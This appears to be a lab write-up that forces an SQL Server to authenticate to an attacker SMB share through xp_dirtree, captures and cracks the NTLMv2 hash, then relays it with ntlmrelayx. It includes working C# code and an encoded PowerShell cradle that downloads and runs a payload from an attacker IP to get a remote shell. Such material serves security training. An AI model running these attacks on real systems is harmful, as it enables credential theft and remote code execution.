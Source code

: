 ## The Attack
**Premise**
If we can force an SQL server to connect to an SMB share we control, the
connection will include authentication data.
NTLM authentication will take place and we should be able to capture the hash of the user account under whose context the SQL server is running.

**Steps**
1. We are going to start by forcing the SQL server to perform a connection request to a SMB share on our Kali machine.
We'll use the [xp_dirtree](https://www.sqlservercentral.com/blogs/how-to-use-xp_dirtree-to-list-all-files-in-a-folder) SQL procedure, which lists all files in a given folder.
If we use our unprivileged access in the database to execute the _xp_dirtree_ procedure, the service account of the SQL server will attempt to list the contents of a given SMB share.
If the hostname is given as an IP address, Windows will automatically revert to NTLM authentication instead of Kerberos authentication.

The code to authenticate and execute the query will be as follows:
```C#
using System;
using System.Data.SqlClient;

namespace SQL
{
    class Program
    {
        static void Main(string[] args)
        {
            String sqlServer = "dc01.corp1.com";
            String database = "master";

            String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);
           
            try
            {
                con.Open();
                Console.WriteLine("Auth success!");
            }
            catch
            {
                Console.WriteLine("Auth failed");
                Environment.Exit(0);
            }

            String query = "EXEC master..xp_dirtree \"\\\\192.168.119.120\\\\test\";";
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            reader.Close();
            
            con.Close();
        }
    }
}
```

2. We will now start responder to catch the NTLM share.
We will run the c# application inside our victim box, and also shut down any smb connections with the responder running.

![](../../../Screenshots/cntlmh-or.png)

The hash obtained by Responder is called a [NTLMv2](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) hash.

3. We will finally crack the hash using JTR:

![](../../../Screenshots/ntlmch-cwjtr.png)

## Relay The Hash
If we have captured the NTLM hash of a domain user that is a local administrator on a remote machine, we can perform a pass-the-hash attack and gain remote code execution.
To perform this attack, we are going to use the [_Impacket_](https://github.com/SecureAuthCorp/impacket) _ntlmrelayx_ tool.
We will use our previously-developed PowerShell runner to execute a Meterpreter staged payload.
We first create our encoded powershell download cradle with the linux powershell utility:
```POWERSHELL
pwsh
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.147/run.ps1') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

Finally, we run the following command, to use ntlmrelayx and start a listener, and run the c# console application followed by it:
```sh
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.136.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADEANAA3AC8AcgB1AG4ALgBwAHMAMQAnACkAIAB8ACAASQBFAFgA'
```

This results in NTLM authentication against our Kali machine and relaying of the Net-NTLM hash.

![](../../../Screenshots/ntlmrx-caupi.png)

And we get a shell on the domain joined machine:
![](../../../Screenshots/sip-fcs.png)